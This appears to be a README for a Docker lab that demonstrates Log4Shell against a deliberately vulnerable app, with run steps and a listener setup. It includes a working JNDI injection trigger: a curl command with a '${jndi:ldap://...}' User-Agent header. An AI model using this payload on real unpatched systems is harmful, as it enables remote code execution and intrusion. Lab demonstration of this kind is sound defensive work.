 # fun with log4shell and docker

This repo too proof exploitation in latest java version. 
Please upgrade neo4j package !

- vulnerable app from : https://github.com/christophetd/log4shell-vulnerable-app.git
- vulnerability explained : https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/


## play 
- one terminal : launch the vulnerable app : ./start_vuln_server.sh
- other terminal :
  - find ip of the vulnerable APP : `sudo docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' container_name_or_id`
  - the host ip is from the container perspective. It will be the .1, if the container ip is 172.28.0.2, the ip to give is 172.28.0.1
  - launch the exploit : `./exploit.sh <host_ip>` (clone and build the jndi ldap server, compile the malicious class, run jndi server, run apache server to give the class in http, start listener) (ldap: port 4445, http server : 4443, listener : 4444)

- other terminal trig the exploit : `curl 127.0.0.1:8081 -H 'User-Agent: ${jndi:ldap://<host_ip>:4445/x}'

![](./poc.png)
